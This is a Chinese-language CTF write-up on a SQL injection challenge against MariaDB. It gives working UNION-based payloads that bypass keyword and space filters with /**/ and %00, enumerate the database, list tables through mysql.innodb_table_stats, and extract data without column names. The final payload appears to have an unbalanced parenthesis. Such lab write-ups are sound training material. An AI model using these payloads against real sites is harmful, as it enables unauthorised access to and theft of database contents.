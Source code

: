 # 考察知识点：

# 1.无列名注入

# 2.基于MariaDB的SQL注入



1. 经过不断尝试发现不是xss，而是sql注入

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/CCC31A50C1884CE28D5E6E2A351BA2AFclipboard.png)



2.发现过滤了or,and,空格，#，--+。

控股个可以使用/**/代替，注释符可以使用%00代替



3.使用union/**/select联合注入，判断列数

发现存在22列

```javascript
title=-2'union/**/select/**/null,null,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null;%00
```

发现数据库版本为：



4.爆库

```javascript
title=-2'union/**/select/**/null,database(),null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null;%00
```



5.爆表

但是or被过滤，导致information.schema不可以使用，但是发现数据库版本为：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/978F3C2712F6461794D01982A54DDA0Bclipboard.png)

使用 innodb 存储引擎

在Mysql>5.6版本中，innodb增添了两个新表：innodb_index_stats、innodb_table_stats。

两个表都会存储数据库和对应的数据表，唯一与information_schema不同的是它没有列名。

- sys 数据库

Mysql>5.7时，新增了sys数据库，基础数据来自于performance_chema和information_schema两个库，但是本身数据库不存储数据。

而且值得一提的是 MySQL 好像是默认关闭 innodb 数据库的，所以这也是一种新思路。

sys 有一些有用的表：

| 表名 | 作用 |
| - | - |
| schema\_auto\_increment\_columns | 只会显示有自增的表 |
| schema\_table\_statistics\_with\_buffer | 全部显示 |
| x$schema\_table\_statistics\_with\_buffer | 全部显示 |


但是需要用户是 root 权限才能查看 sys 数据库，所以要先看一下 user()是不是 root。

3、查看表名

因为用户权限是root，所以可以使用sys数据库。但是mariaDB数据库中没有sys数据库。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/B9DBCA3E506C43BDACE1DB908F71A25CQ1zBSxLHVMCb.png)



所以使用mysql数据库中的innodb_table_stats表。



```javascript
title=-2'union/**/select/**/null,(select/**/group_concat(table_name)/**/
from/**/mysql.innodb_table_stats),null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null;%00
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/32BF24F12BB54886BC68F86EEE9A91D5clipboard.png)



6.此时已经知道了表名，但是不知道列名，可以考虑无列名注入

无列名注入：

https://www.jianshu.com/p/6eba3370cfab

```javascript
title=-2'union/**/select/**/null,(select/**/group_concat(b)/**/from/**/
(select/**/1,2/**/as/**/a,3/**/as/**/b/**/union/**/select*from/**/users)ll))
,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null;%00
```







